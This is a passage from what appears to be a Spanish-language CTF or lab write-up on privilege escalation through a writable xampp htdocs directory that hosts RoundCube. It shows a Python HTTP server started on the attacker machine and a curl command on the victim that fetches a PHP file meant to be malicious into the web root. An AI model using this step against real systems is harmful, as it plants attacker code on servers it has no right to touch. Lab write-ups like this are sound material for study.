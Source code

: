 Vemos un directorio index.php en la ruta htdocs (ruta raiz de xampp), y si listamos el contenido veremos que pertenece a la página de RoundCube:

![escalada](Imagenes/87.png)

Probamos a crear una carpeta en el directorio htdocs:

![escalada](Imagenes/88.png)

Vemos que tenemos capacidad de escritura. ¿Quién me dice a mí que el servicio xampp no lo esta corriendo el usuario Administrador?, podemos intentar poner un php malicioso y comprobarlo:

- En la máquina atacante:

```
python -m http.server 80
```

- En la máquina víctima:

```
curl http://<IP>/prueba.php -o prueba.php
```
